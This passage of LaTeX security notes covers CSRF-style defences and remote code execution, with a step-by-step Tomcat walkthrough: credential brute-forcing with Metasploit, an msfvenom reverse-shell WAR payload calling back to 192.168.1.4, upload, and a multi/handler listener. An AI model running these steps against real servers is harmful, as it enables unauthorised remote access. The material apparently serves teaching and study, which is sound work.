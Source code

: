 \paragraph{Attack details}
\paragraph{Defence} In order to defend from that attack we could introduce second step of verification.
Banking applications are used to use SMS codes or captcha.
We can also introduce unique form tokens generated on every POST, PUT or DELETE request.

\subsection{Remote Code Execution (RCE)}
Remote code execution takes place when you are able to execute for instance shell commands on the remote machine.
It can happen when you upload script file to the web page (javascript) which is executed or when you
upload script files on the server and these are interpreted and executed as normal secure code.
In this scenario you can upload a piece of software that executes shell commands and sends them back from the remote mashine to you.
In general you can work on remote terminal as it was located on your machine.
\paragraph{Tomcat Java servlet upload}
In this example I describe how remote code execution is done basing on servlet upload on tomcat server.
Lets consider tomcat server works on 10.10.10.10:8080 port (we know this from nmap).
We also know from nmap that operating system is Windows x65
Now we enumerate tomcat users using \texttt{auxiliary/scanner/http/tomcat\_mgr\_login}.
Lets assume enumeration gives: \texttt{tomcat:tomcat}.
Once the tomcat user is logged in go to place when WAR files are uploaded.
Make payload using \texttt{msfvenom -p windows/x64/shell/reverse\_tcp lhost\=192.168.1.4 -f war>tom.war} (\texttt{-f war} stands for format of input file and \texttt{lhost} is our host).
If war file has been compiled you can check what is inside by: \texttt{jar tvf <file-name>.war}.
There is file with .jsp extension and this file will execute shell and transmit it to our listener.
Now upload .war file on the server and run in the msfconsole \texttt{multi/handler}.
Multi-handling listener will run in terminal and will be wating for connections coming from remote machine.
Last step is to go to \texttt{http://10.10.10.10:8080/...../<war-file-name>/<jsp-file-name>.jsp}.
Finally you should see remote terminal and execute commands remotely.

